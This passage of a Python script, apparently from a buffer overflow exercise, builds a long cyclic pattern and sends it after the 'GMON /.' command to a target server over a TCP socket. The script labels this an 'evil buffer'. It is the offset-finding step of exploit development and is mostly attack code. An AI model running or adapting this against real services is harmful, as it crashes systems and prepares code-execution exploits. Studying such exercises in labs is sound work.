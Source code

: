 ```python
pattern += b"6Co7Co8Co9Cp0Cp1Cp2Cp3Cp4Cp5Cp6Cp7Cp8Cp9Cq0Cq1Cq2Cq3Cq4Cq5Cq6Cq7Cq8Cq9Cr0Cr1Cr2Cr3Cr4Cr5Cr6Cr7Cr8Cr9"
pattern += b"Cs0Cs1Cs2Cs3Cs4Cs5Cs6Cs7Cs8Cs9Ct0Ct1Ct2Ct3Ct4Ct5Ct6Ct7Ct8Ct9Cu0Cu1Cu2Cu3Cu4Cu5Cu6Cu7Cu8Cu9Cv0Cv1Cv2C"
pattern += b"v3Cv4Cv5Cv6Cv7Cv8Cv9Cw0Cw1Cw2Cw3Cw4Cw5Cw6Cw7Cw8Cw9Cx0Cx1Cx2Cx3Cx4Cx5Cx6Cx7Cx8Cx9Cy0Cy1Cy2Cy3Cy4Cy5Cy"
pattern += b"6Cy7Cy8Cy9Cz0Cz1Cz2Cz3Cz4Cz5Cz6Cz7Cz8Cz9Da0Da1Da2Da3Da4Da5Da6Da7Da8Da9Db0Db1Db2Db3Db4Db5Db6Db7Db8Db9"
pattern += b"Dc0Dc1Dc2Dc3Dc4Dc5Dc6Dc7Dc8Dc9Dd0Dd1Dd2Dd3Dd4Dd5Dd6Dd7Dd8Dd9De0De1De2De3De4De5De6De7De8De9Df0Df1Df2D"
pattern += b"f3Df4Df5Df6Df7Df8Df9Dg0Dg1Dg2Dg3Dg4Dg5Dg6Dg7Dg8Dg9Dh0Dh1Dh2Dh3Dh4Dh5Dh6Dh7Dh8Dh9Di0Di1Di2Di3Di4Di5Di"
pattern += b"6Di7Di8Di9Dj0Dj1Dj2Dj3Dj4Dj5Dj6Dj7Dj8Dj9Dk0Dk1Dk2Dk3Dk4Dk5Dk6Dk7Dk8Dk9Dl0Dl1Dl2Dl3Dl4Dl5Dl6Dl7Dl8Dl9"
pattern += b"Dm0Dm1Dm2Dm3Dm4Dm5Dm6Dm7Dm8Dm9Dn0Dn1Dn2Dn3Dn4Dn5Dn6Dn7Dn8Dn9Do0Do1Do2Do3Do4Do5Do6Do7Do8Do9Dp0Dp1Dp2D"
pattern += b"p3Dp4Dp5Dp6Dp7Dp8Dp9Dq0Dq1Dq2Dq3Dq4Dq5Dq6Dq7Dq8Dq9Dr0Dr1Dr2Dr3Dr4Dr5Dr6Dr7Dr8Dr9Ds0Ds1Ds2Ds3Ds4Ds5Ds"
pattern += b"6Ds7Ds8Ds9Dt0Dt1Dt2Dt3Dt4Dt5Dt6Dt7Dt8Dt9Du0Du1Du2Du3Du4Du5Du6Du7Du8Du9Dv0Dv1Dv2Dv3Dv4Dv5Dv6Dv7Dv8Dv9"
pattern += b"Dw0Dw1Dw2Dw3Dw4Dw5Dw6Dw7Dw8Dw9Dx0Dx1Dx2Dx3Dx4Dx5Dx6Dx7Dx8Dx9Dy0Dy1Dy2Dy3Dy4Dy5Dy6Dy7Dy8Dy9Dz0Dz1Dz2D"
pattern += b"z3Dz4Dz5Dz6Dz7Dz8Dz9Ea0Ea1Ea2Ea3Ea4Ea5Ea6Ea7Ea8Ea9Eb0Eb1Eb2Eb3Eb4Eb5Eb6Eb7Eb8Eb9Ec0Ec1Ec2Ec3Ec4Ec5Ec"
pattern += b"6Ec7Ec8Ec9Ed0Ed1Ed2Ed3Ed4Ed5Ed6Ed7Ed8Ed9Ee0Ee1Ee2Ee3Ee4Ee5Ee6Ee7Ee8Ee9Ef0Ef1Ef2Ef3Ef4Ef5Ef6Ef7Ef8Ef9"
pattern += b"Eg0Eg1Eg2Eg3Eg4Eg5Eg6Eg7Eg8Eg9Eh0Eh1Eh2Eh3Eh4Eh5Eh6Eh7Eh8Eh9Ei0Ei1Ei2Ei3Ei4Ei5Ei6Ei7Ei8Ei9Ej0Ej1Ej2E"
pattern += b"j3Ej4Ej5Ej6Ej7Ej8Ej9Ek0Ek1Ek2Ek3Ek4Ek5Ek6Ek7Ek8Ek9El0El1El2El3El4El5El6El7El8El9Em0Em1Em2Em3Em4Em5Em"
pattern += b"6Em7Em8Em9En0En1En2En3En4En5En6En7En8En9Eo0Eo1Eo2Eo3Eo4Eo5Eo6Eo7Eo8Eo9Ep0Ep1Ep2Ep3Ep4Ep5Ep6Ep7Ep8Ep9"
pattern += b"Eq0Eq1Eq2Eq3Eq4Eq5Eq6Eq7Eq8Eq9Er0Er1Er2Er3Er4Er5Er6Er7Er8Er9Es0Es1Es2Es3Es4Es5Es6Es7Es8Es9Et0Et1Et2E"
pattern += b"t3Et4Et5Et6Et7Et8Et9Eu0Eu1Eu2Eu3Eu4Eu5Eu6Eu7Eu8Eu9Ev0Ev1Ev2Ev3Ev4Ev5Ev6Ev7Ev8Ev9Ew0Ew1Ew2Ew3Ew4Ew5Ew"
pattern += b"6Ew7Ew8Ew9Ex0Ex1Ex2Ex3Ex4Ex5Ex6Ex7Ex8Ex9Ey0Ey1Ey2Ey3Ey4Ey5Ey6Ey7Ey8Ey9Ez0Ez1Ez2Ez3Ez4Ez5Ez6Ez7Ez8Ez9"
pattern += b"Fa0Fa1Fa2Fa3Fa4Fa5Fa6Fa7Fa8Fa9Fb0Fb1Fb2Fb3Fb4Fb5Fb6Fb7Fb8Fb9Fc0Fc1Fc2Fc3Fc4Fc5Fc6Fc7Fc8Fc9Fd0Fd1Fd2F"
pattern += b"d3Fd4Fd5Fd6Fd7Fd8Fd9Fe0Fe1Fe2Fe3Fe4Fe5Fe6Fe7Fe8Fe9Ff0Ff1Ff2Ff3Ff4Ff5Ff6Ff7Ff8Ff9Fg0Fg1Fg2Fg3Fg4F"

buf = b""
buf += b"GMON /."
#buf += b"A" * size
buf += pattern
buf += line_ending

s = socket.socket (socket.AF_INET, socket.SOCK_STREAM)
s.connect((target_ip, target_port))

# receive banner
banner = s.recv(1024)
print(banner)

# send evil buffer
print(f"Sending evil buffer with {len(buf)} bytes and payload length {size}...")
s.send(buf)

# receive response
a = s.recv(1024)
print(a)
```